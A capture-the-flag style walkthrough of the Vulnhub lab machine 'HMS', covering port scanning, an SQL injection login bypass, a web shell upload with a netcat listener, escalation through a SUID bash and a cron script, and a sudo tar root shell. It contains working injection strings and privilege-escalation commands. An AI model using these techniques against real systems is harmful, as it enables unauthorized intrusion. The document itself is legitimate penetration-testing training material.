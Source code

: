 # HMS-Writeup 
HMS is an easy machine from Vulnhub by Nivek.<br />
I've tested this machine on VirtualBox.<br />
Link to the machine: [https://www.vulnhub.com/entry/hms-1,728/](https://www.vulnhub.com/entry/hms-1,728/).
<br />

## Identify the target
I'm using the machine in host-only network. Here, I am using netdiscover to detect the IP address of the target.
```
netdiscover -i vboxnet0 -r 10.10.10.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                      
                                                                                                    
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 102                                    
_____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
 10.10.10.1      08:00:27:fc:33:6c      1      42  PCS Systemtechnik GmbH                           
 10.10.10.10     08:00:27:56:f8:fd      1      60  PCS Systemtechnik GmbH
```
<br />

## Scan Open Ports

We have to look for open ports on the target.
```
nmap -sV -sC -p- -oN nmap.log 10.10.10.10

21/tcp   open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.10.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3c:fc:ed:dc:9b:b3:24:ff:2e:c3:51:f8:33:20:78:40 (RSA)
|   256 91:5e:81:68:73:68:65:ec:a2:de:27:19:c6:82:86:a9 (ECDSA)
|_  256 a7:eb:f6:a2:c6:63:54:e1:f5:18:53:fc:c3:e1:b2:28 (ED25519)
7080/tcp open  http    Apache httpd 2.4.48 ((Unix) OpenSSL/1.1.1k PHP/7.3.29 mod_perl/2.0.11 Perl/v5.32.1)
|_http-server-header: Apache/2.4.48 (Unix) OpenSSL/1.1.1k PHP/7.3.29 mod_perl/2.0.11 Perl/v5.32.1
| http-title: Admin Panel
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```
<br />

We can access the FTP service anonymously.
```
ftp 10.10.10.10

Connected to 10.10.10.10.
220 (vsFTPd 3.0.3)
Name (10.10.10.10:a7): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        118          4096 Jul 26 19:27 .
drwxr-xr-x    2 0        118          4096 Jul 26 19:27 ..
226 Directory send OK.
ftp>
```
<br />

There is nothing in there.
<br />

## Examine Port 7080 - Apache

![](pics/login.png)
<br />

We have a login page, but no registeration link, and we don’t have any credentials.<br />
Let's use `Burp` to intercept the request.<br />
Send it to repeater, modified email with `'`.

![](pics/burp1.png)
<br />

The field email in this form suffers from an SQL injection. 
```
' or 1=1 #
' or 1=1 -- 
```
<br />

You can also use developer tools to modify the request.<br />
However, there is a validation in the input field that it must be an `email`. Thus we have to remove it to inject our payload. So, inspect the email field and remove `type="email"`.
<br />
And we have access to the admin panel.

![](pics/admin1.png)
<br />

After we login, we see a directory for uploaded images in the source.

![](pics/source1.png)
<br />

And a path for the settings that are commented.

![](pics/source2.png)
<br />

When we visit `setting.php`, we see an image uploading feature.

![](pics/admin2.png)
<br />

## Reverse Shell

Let's upload a shell. There is a web shells in kali by default: `ls /usr/share/webshells`, Or you can find one online: [revshells](https://www.revshells.com/),  [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)<br />

I Changed the IP address and port, and started listening on the same port.
```
nc -lnvp 5555
```
<br />

We have a dummy shell, let's upgrade it.

![](pics/shell1.png)
<br />

There are two users on the machine `eren` and `nivek`. We need to switch to a real user so let us check the SUID binaries.

![](pics/perm.png)
<br />

> Reference: [https://gtfobins.github.io/gtfobins/bash/#suid](https://gtfobins.github.io/gtfobins/bash/#suid)
<br />

So, we can use it to get an instance of bash shell as user `eren`.
```
/usr/bin/bash -p
```
<br />

We still user `daemon` but `eren` is the effective user for this process only, this means that we don't have access to sudo permissions.

![](pics/euid.png)
<br />

After a while of digging around, I checked the cron jobs, and there is a backup script in the eren's directory. 

![](pics/cron.png)
<br />

This script runs every 5 minutes and is owned by `eren`. we can modify it to get another reverse shell as user `eren` on port `1234`.

![](pics/nano.png)
<br />

In five minutes I got a shell with user eren.

![](pics/rshell1.png)
<br />

## Privilege Escalation

Let's check the sudo permission:
```
sudo -l

Matching Defaults entries for eren on nivek:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eren may run the following commands on nivek:
    (root) NOPASSWD: /bin/tar
```
<br />

> Searching in gtfobins: [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo)
<br />

tar gives us a root shell
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
<br />

and we're root.

![](pics/sudo.png)
